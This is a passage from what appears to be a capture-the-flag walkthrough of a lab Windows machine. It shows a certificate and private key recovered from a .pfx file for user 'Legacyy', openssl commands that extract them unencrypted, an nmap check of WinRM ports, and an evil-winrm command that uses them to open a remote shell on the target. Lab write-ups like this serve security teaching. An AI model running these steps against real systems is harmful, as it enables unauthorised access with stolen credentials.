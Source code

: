 ```
G5OWn8X4fon5Fpy3YE1adW/AVYeXSwd/cmftOxdCs/2UXLgFqy/QQ3fHL0ijh2BF
Xi0YxxSXPe+KbKy1/JkdeBW/mkGxPJJzWJB2l72Mvxv0Ux3IgqtPIdsYPA+cXrS+
C479IhpEHu6bu5ceq77loUMeVaH3Q8VhvEe9tKshAs39+eu4pW5fLR4P12Ukd7c8
rgrK6/RAlACdIoaOf1fEziIDAACH9EgWBbHQSee83ml4QAcvaywN1657Ed/ryAmU
WIc4DAFgCM3kEYrblddQavDfIdcC40wGEGKFHAe4hOKSjexDf4J4RxPJ8d9pKle3
h3sds9gPw4CTa5vaKnsaeFAw1fx6AvNecDl3E1Y5x+hC/o6fbK5XhwoORfu1c9oM
n0wsP4b5NU2IYkrYY0yAPBuLoMox5uQ7nigahViWOheb83YmE4D0z8TCJMIFhP+z
jGosef9yZ/7oBp11D+qkEpy3XP8sQJNyoTduqRu7KmGv7kE88N/SmML6sr5v061h
X+1h0Vds8eznTiKVNq33um8PYbTRXLu/mMEhIouVkSP6kT09Yz9odiIFRUfSXrun
erCKOg/weIyXV77p3H4d57lPvDCxEkXoivMZgiymhlBQaPAKBT2P5VMyVFtX59o6
L3r1n9uypQLamcmPmJm+3m+LnNK7T5e/G6dkQlIT9onNiTcJlSS5JHC5w49Mm5Bl
+7fSeMQxtPC7P+KoBnQBetd2zB+AqyZMZHPPfIp9V4rIn05rhAXGP6upicfZ/zjx
+zWurFDqq6KGZNx8ilu3ng5AlEO9Xdv58Oz0gfpWcc9vFvMZeaAnMnU=
-----END ENCRYPTED PRIVATE KEY-----
Bag Attributes
    localKeyID: 01 00 00 00 
subject=CN=Legacyy
issuer=CN=Legacyy
-----BEGIN CERTIFICATE-----
MIIDJjCCAg6gAwIBAgIQHZmJKYrPEbtBk6HP9E4S3zANBgkqhkiG9w0BAQsFADAS
MRAwDgYDVQQDDAdMZWdhY3l5MB4XDTIxMTAyNTE0MDU1MloXDTMxMTAyNTE0MTU1
MlowEjEQMA4GA1UEAwwHTGVnYWN5eTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCC
AQoCggEBAKVWB6NiFkce4vNNI61hcc6LnrNKhyv2ibznhgO7/qocFrg1/zEU/og0
0E2Vha8DEK8ozxpCwem/e2inClD5htFkO7U3HKG9801NFeN0VBX2ciIqSjA63qAb
YX707mBUXg8Ccc+b5hg/CxuhGRhXxA6nMiLo0xmAMImuAhJZmZQepOHJsVb/s86Z
7WCzq2I3VcWg+7XM05hogvd21lprNdwvDoilMlE8kBYa22rIWiaZismoLMJJpa72
MbSnWEoruaTrC8FJHxB8dbapf341ssp6AK37+MBrq7ZX2W74rcwLY1pLM6giLkcs
yOeu6NGgLHe/plcvQo8IXMMwSosUkfECAwEAAaN4MHYwDgYDVR0PAQH/BAQDAgWg
MBMGA1UdJQQMMAoGCCsGAQUFBwMCMDAGA1UdEQQpMCegJQYKKwYBBAGCNxQCA6AX
DBVsZWdhY3l5QHRpbWVsYXBzZS5odGIwHQYDVR0OBBYEFMzZDuSvIJ6wdSv9gZYe
rC2xJVgZMA0GCSqGSIb3DQEBCwUAA4IBAQBfjvt2v94+/pb92nLIS4rna7CIKrqa
m966H8kF6t7pHZPlEDZMr17u50kvTN1D4PtlCud9SaPsokSbKNoFgX1KNX5m72F0
3KCLImh1z4ltxsc6JgOgncCqdFfX3t0Ey3R7KGx6reLtvU4FZ+nhvlXTeJ/PAXc/
fwa2rfiPsfV51WTOYEzcgpngdHJtBqmuNw3tnEKmgMqp65KYzpKTvvM1JjhI5txG
hqbdWbn2lS4wjGy3YGRZw6oM667GF13Vq2X3WHZK5NaP+5Kawd/J+Ms6riY0PDbh
nx143vIioHYMiGCnKsHdWiMrG2UWLOoeUrlUmpr069kY/nn7+zSEa2pA
-----END CERTIFICATE-----

```
	- We see a key and a certificate.
- We extract it. Note that we can copy it but sometimes whitespace might affect the key so it's better to extract with the openssl command itself:
	```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.cert -nodes
```
- We can check if winrm is open on target:
	```bash
nmap -p5985-5986 10.10.11.152 -vv

---OUTPUT---
PORT     STATE    SERVICE REASON
5985/tcp filtered wsman   no-response
5986/tcp open     wsmans  syn-ack ttl 127
```
- If we check evilwinrm help option we can see we can input a key and certificate file as well as ssl authentication:
	```bash
evil-winrm -c key.cert -k key.pem  -i 10.10.11.152 --ssl           
---OUTPUT---
Evil-WinRM shell v3.7
                         